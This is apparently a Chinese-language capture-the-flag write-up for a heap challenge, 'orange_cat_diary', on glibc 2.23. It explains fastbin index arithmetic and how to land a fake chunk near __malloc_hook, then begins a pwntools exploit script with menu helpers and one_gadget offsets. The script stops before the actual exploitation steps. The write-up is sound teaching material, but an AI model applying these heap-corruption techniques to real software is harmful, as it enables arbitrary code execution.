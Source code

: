 ```
chunksize_nomask(p) -> 0x7c(0b0111 1100)
chunksize(p) -> 0x78(0b0111 1000)
fast_index(sz)  -> ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2) 
                -> ((((unsigned int) (sz)) >> 4) - 2) 
                -> (0x7)0b0111 - 2
                -> 5
```

|fastbinY   |32位chunk_size|64位chunk_size|
|-----------|--------------|--------------|
|fastbinY[0]|0x18          |0x20          |
|fastbinY[1]|0x20          |0x30          |
|fastbinY[2]|0x28          |0x40          |
|fastbinY[3]|0x30          |0x50          |
|fastbinY[4]|0x38          |0x60          |
|fastbinY[5]|0x40          |0x70          |
|fastbinY[6]|0x48          |0x80          |

即fastbin的idx为5，对应chunk大小为0x70
当我们申请0x60到0x68字节大小的空间时，会先调用一个checked_request2size的宏转为0x70的chunk size
所以我们可以申请0x60~0x68的空间，即可绕过fastbin的检测

申请到的内存会转换为用户内存(+0x10)，所以此时__malloc_hook的位置在申请到的指针的0x13字节之后

### exp
```python
from pwn import *

p = process("./orange_cat_diary")

libc = ELF("./libc-2.23.so")

context.log_level = 'debug'

def add(size,content):
    p.sendlineafter(b'choice:',b'1')
    p.sendafter(b'content:',str(size).encode())
    p.sendafter(b'content:',content)

def show():
    p.sendlineafter(b'choice:',b'2')
    
def delete():
    p.sendlineafter(b'choice:',b'3')

def edit(size,content):
    p.sendlineafter(b'choice:',b'4')
    p.sendafter(b'content:',str(size).encode())
    p.sendafter(b'content:',content)

# gadget
one_gadget1 = 0x4527a
one_gadget2 = 0xf03a4
one_gadget3 = 0xf1247

p.sendlineafter(b"Hello, I'm delighted to meet you. Please tell me your name.",b'zzkkk1h')

#gdb.attach(p)

```
